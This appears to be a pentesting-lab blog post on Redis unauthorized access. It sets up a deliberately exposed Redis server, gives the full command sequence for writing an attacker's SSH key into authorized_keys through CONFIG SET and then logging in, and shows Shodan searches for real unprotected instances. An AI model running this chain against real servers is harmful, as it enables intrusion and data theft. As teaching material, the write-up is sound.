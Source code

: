 ```yaml
---
layout: post
title: "Redis Unauthorized Access Vulnerability Lab"
excerpt: "If a Redis is publicly accessible and is not protected by password, a remote attacker can exploit this to gain unauthorized access to the server. Let's learn how to set up a vulnerable redis server and attack it. We will also explore how to search and verify vulnerable redis out there with powerful search engine Shodan and automated python exploit"
categories: [pentesting-lab]
comments: true
image:
  feature: redis-unauth-acc-vul/redis-unauthorized-access-small.png
  show: false
tag: ['cybersecurity', 'pentesting', 'infosec', 'redis', 'vul-lab']
---
```


Redis, is an open source, widely popular data structure tool that can be used as an in-memory distributed database, message broker or cache. Since it is designed to be accessed inside trusted environments, it should not be exposed on the Internet. However, some Redis' are bind to public interface and even has no password authentication protection. 


Under certain conditions, if Redis runs with the root account (or not even), attackers can write an SSH public key file to the root account, directly logging on to the victim server through SSH. This may allow hackers to gain server privileges, delete or steal data, or even lead to an encryption extortion, critically endangering normal business services.


The simplified flow of this exploit is:

	- Login to a unprotected Redis
	- Change it's backup location to .ssh directory
	- Write the SSH Keys to new backup location
	- Remote connect and login to the target server using SSH key

We should already be familiar how automatic SSH login with private + public keys works.

## Simulation

Now let's get our feet wet and set up a target machine. We'll need two machines, they can be real machines, virtual machines, or remote machines (VPS). As long as the attack end is able to ping the target end, we are good.


Environment setup for this example:

	- Target machine: Redis-3.2.11 on Ubuntu
	- Attack machine: Kali Linux

#### Set Up Target Machine:

First, let us set up the target machine with Redis. Download source code by
```bash
wget http://download.redis.io/releases/redis-3.2.11.tar.gz
```

Extract and build
```bash
tar xzf redis-3.2.11.tar.gz
cd redis-3.2.11
make
```

After make, we can use our favorite editor to open ```redis.conf``` in ```redis-3.2.11``` folder. In order to be remotely accessed, we will need to comment out line ```bind 127.0.0.1``` and disable ```protected-mode``` as shown below.

![redis.conf]({{ "/assets/upload/images/redis-unauth-acc-vul/redis.conf.png" | absolute_url }}){:class="post-image center"}

Now fire up Redis with the configuration file we just edited. Note that ```redis-server``` is in ```redis-3.2.11/src```.

```bash
src/redis-server redis.conf
```

So far, we have finished setting up the targer server. Additionally, we should also check if we have ```.ssh``` folder. If not, we should create it for the attack later. 


#### Attack Machine:

First, make sure we can ping the target. Then, we will generate a private key and public key for SSHing into the target machine later. Run the following command to generate SSH keys and leave passphrase empty.
```bash
ssh-keygen -t rsa
```

Next, enter the ```.ssh``` folder. If you are root user, enter ```/.ssh```, otherwise ```~/.ssh```, then copy the private key in to ```temp.txt```.

```bash
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > temp.txt
```

Some may be wondering that why do we put two blank lines before and after the public key? We will leave that as a mystery for right now if you don't know :)

![ssh-keygen]({{ "/assets/upload/images/redis-unauth-acc-vul/keygen.png" | absolute_url }}){:class="post-image center"}

Good! So far we have generated a pair a keys, we will need to find a way to smuggle the public key to the Redis server (target machine.)

We are going to use ```redis-cli```, the Redis command line interface, to send commands to Redis and read the replies sent by the server directly in the terminal. 

Run the following commands in ```redis-3.2.11/src``` folder. (Or depending where we are, we can always specify the path to the files we use)

```bash
#our SSH public key|            Remote Redis IP | Command | key file
cat /.ssh/temp.txt | redis-cli -h 203.137.255.255 -x set s-key
```

Here, let's' take a look at the command. We use ```-h``` flag to specify the remote Redis server IP so that ```redis-cli``` knows where to connect and send commands. The part after ```-x``` is saying that we are setting the key in redis named ```s-key``` with the value in ```temp.txt```. 

![set-key]({{ "/assets/upload/images/redis-unauth-acc-vul/set-key.png" | absolute_url }}){:class="post-image center"}

Yea, we have a key with our SSH key sneaked in! Let's connect to the Redis and play around its configuration. Use ```redis-cli``` to connect to the Redis server again.

![set-backup-dir]({{ "/assets/upload/images/redis-unauth-acc-vul/set-backup-dir.png" | absolute_url }}){:class="post-image center"}

Looking at the above screenshot, we first verify the value of the key ```s-key``` by using the command ```GET s-key```, which is what we want -- the public key with two blank lines before and after. Then I tried the command "dir" just to see what it says (kidding). What we actually want to do here is to get the value of "s-key" (SSH public key) stored in the ```.ssh``` folder so that we can remote SSH login to the target machine whithout having to type the password.

Thus, we will do this:

```bash
CONFIG GET dir #  get your redis directory
# In the output of above command "/home/xxxx/redis-3.2.11/src" is the directory where redis server is installed.

CONFIG SET dir /home/xxxx/.ssh # set the backup location to the .ssh folder
(or) CONFIG SET dir /root/.ssh 

CONFIG SET dbfilename authorized_keys

# lastly we back our data containing our "s-key" key-value pair up in the .ssh folder
save

```

> The authorized_keys file in SSH specifies the SSH keys that can be used for logging into the user account for which the file is configured 
> Source: [ssh.com](https://www.ssh.com/ssh/authorized_keys/)


The screenshot shown above already demonstrates the steps mentioned here.


#### Harvest Time

On Attack Machine, try to SSH in the Target Machine using the following command.

```bash
# private key username@server IP
ssh -i id_rsa username@203.137.255.255
```

![sshkey-auth-login]({{ "/assets/upload/images/redis-unauth-acc-vul/sshkey-auth-login.png" | absolute_url }}){:class="post-image center"}


YAS! As we can see, we have a successful auto-login with SSH keys! Voila, we have now completed the attack simulation. :smile: (Smiley face actually means that I'm finally almost done writing this up :joy:)

At the end of this section, I would like to show what is Redis's backup file look like.

![sshkey-auth-login]({{ "/assets/upload/images/redis-unauth-acc-vul/sshkey-auth-login.png" | absolute_url }}){:class="post-image center"}

Notice the unreadable characters? Add "\n\n" before and after the key content was just to be safe and separate it from other "stuff" so that it can be parsed correctly. :ok_hand:

## Use Search Engine to find Vulnerable Redis Servers

Alrighty, as I mentioned, we are going to use [Shodan](https://www.shodan.io/) to search servers that has Redis footprint (characteristics).

Let us do a simple search by Redis' default port.

![shodan]({{ "/assets/upload/images/redis-unauth-acc-vul/shodan.png" | absolute_url }}){:class="post-image center"}

Looks like we have 75,665 search results. Aaaaaand guess what! Right down there (not shown but we can see it if we scroll down) there are TONS of host that has NO password protection!! :worried: :worried: :worried: 

This vulnerability was found years ago and now still countless of machines are opening up themselves in such an easy way for attackers to have fun in there server... 

According to Shodan, there are around **56,000 unprotected** Redis instances in 2015. 

![shodan-twitter]({{ "/assets/upload/images/redis-unauth-acc-vul/shodan-twit.png" | absolute_url }}){:class="post-image center"}

According to ZoomEye, the distribution of the instances is.

![zoomeye-dist]({{ "/assets/upload/images/redis-unauth-acc-vul/zoomeye-dist.png" | absolute_url }}){:class="post-image center"}

The top ranking countries of these instances are: China, USA, Germany...

![zoomeye-dist-rank]({{ "/assets/upload/images/redis-unauth-acc-vul/zoomeye-dist-rank.png" | absolute_url }}){:class="post-image center"}

Okay, back to the business. So how do we verify if a server is protected using python? It turns out to be fairly simple.

1. Use socket to connect to the target IP
2. Perform a GET request
3. If the server is unprotected, you GET request will succeed; otherwise it will fail

![redis-python-verify]({{ "/assets/upload/images/redis-unauth-acc-vul/redis-python.png" | absolute_url }}){:class="post-image center"}


## Mitigation

- Don't bind to 0.0.0.0
- If you have to, change the default port (6379)
- Set a password (for everything)

